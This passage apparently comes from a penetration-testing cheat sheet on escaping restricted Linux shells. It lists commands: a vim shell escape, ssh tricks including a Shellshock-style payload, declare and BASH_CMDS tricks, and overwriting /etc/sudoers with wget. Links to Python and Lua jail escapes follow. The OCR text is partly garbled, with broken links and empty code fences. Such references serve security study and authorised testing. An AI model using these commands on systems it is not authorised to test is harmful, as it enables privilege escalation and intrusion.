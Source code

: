 ```
```
```
### Using vim

```bash
:set shell=/bin/sh
:shell
```
```
### Create script

Check if you can create an executable file with _/bin/bash_ as content

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
```
### Get bash from SSH

If you are accessing via ssh you can use this trick to execute a bash shell:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
```
### Declare

```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
```
### Wget

You can overwrite for example sudoers file

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
```
### Other tricks

[[https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/|**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**]]\
[[https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells**](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells|https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells]]\
[[https://gtfobins.github.io/**](https/gtfobins.github.io|https://gtfobins.github.io]]\
**It could also be interesting the page:**

[[../bypass-bash-restrictions/]]

## Python Jails

Tricks about escaping from python jails in the following page:

[[../../generic-methodologies-and-resources/python/bypass-python-sandboxes/]]

## Lua Jails

In this page you can find the global functions you have access to inside lua: [[https://www.gammon.com.au/scripts/doc.php?general=lua_base|https://www.gammon.com.au/scripts/doc.php?general=lua_base]]
```